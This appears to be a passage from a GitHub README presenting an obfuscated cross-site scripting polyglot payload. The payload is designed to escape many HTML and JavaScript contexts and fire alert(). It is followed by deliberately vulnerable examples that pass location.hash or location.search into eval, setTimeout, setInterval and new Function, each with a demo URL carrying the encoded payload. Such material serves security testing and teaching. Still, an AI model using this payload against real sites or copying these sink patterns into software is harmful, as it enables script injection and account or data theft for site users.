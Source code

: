 ```html
```
_Demo: <https://jsbin.com/fatorag>_
```html
<script>
/*

jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0D%0A//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e

*/
</script>
```
_Demo: <https://jsbin.com/vovogo>_

#### JS sinks:
* __`eval`:__
````javascript

eval(location.hash.slice(1));

````
_Demo: <https://jsbin.com/qejisu#jaVasCript:/*-/*%60/*%5C%60/*'/*%22/**/(/*%20*/oNcliCk=alert()%20)//%250D%250A%250D%250A//%3C/stYle/%3C/titLe/%3C/teXtarEa/%3C/scRipt/--!%3E%3CsVg/%3CsVg/oNloAd=alert()//%3E%3E>_

* __`setTimeout`:__
````javascript

setTimeout(location.search.slice(1));

````
_Demo: [https://jsbin.com/qawusa?jaVasCript:/*-/*%60/*%5C%60/*'/*%22/**/(/*%20*/oNcliCk=alert()%20)//%250D%250A%250D%250A//%3C/stYle/%3C/titLe/%3C/teXtarEa/%3C/scRipt/--!%3E%3CsVg/%3CsVg/oNloAd=alert()//%3E%3E](https://jsbin.com/qawusa?jaVasCript:/*-/*%60/*%5C%60/*'/*%22/**/(/*%20*/oNcliCk=alert()%20)//%250D%250A%250D%250A//%3C/stYle/%3C/titLe/%3C/teXtarEa/%3C/scRipt/--!%3E%3CsVg/%3CsVg/oNloAd=alert()//%3E%3E)_

* __`setInterval`:__
````javascript

setInterval(location.search.slice(1));

````
_Demo: [https://jsbin.com/colese?jaVasCript:/*-/*%60/*%5C%60/*'/*%22/**/(/*%20*/oNcliCk=alert()%20)//%250D%250A%250D%250A//%3C/stYle/%3C/titLe/%3C/teXtarEa/%3C/scRipt/--!%3E%3CsVg/%3CsVg/oNloAd=alert()//%3E%3E](https://jsbin.com/colese?jaVasCript:/*-/*%60/*%5C%60/*'/*%22/**/(/*%20*/oNcliCk=alert()%20)//%250D%250A%250D%250A//%3C/stYle/%3C/titLe/%3C/teXtarEa/%3C/scRipt/--!%3E%3CsVg/%3CsVg/oNloAd=alert()//%3E%3E)_

* __`Function`:__
````javascript

new Function(location.search.slice(1));

````
_Demo: [https://jsbin.com/hizemi?jaVasCript:/*-/*%60/*%5C%60/*'/*%22/**/(/*%20*/oNcliCk=alert()%20)//%250D%250A%250D%250A//%3C/stYle/%3C/titLe/%3C/teXtarEa/%3C/scRipt/--!%3E%3CsVg/%3CsVg/oNloAd=alert()//%3E%3E](https://jsbin.com/hizemi?jaVasCript:/*-/*%60/*%5C%60/*'/*%22/**/(/*%20*/oNcliCk=alert()%20)//%250D%250A%250D%250A//%3C/stYle/%3C/titLe/%3C/teXtarEa/%3C/scRipt/--!%3E%3CsVg/%3CsVg/oNloAd=alert()//%3E%3E)_
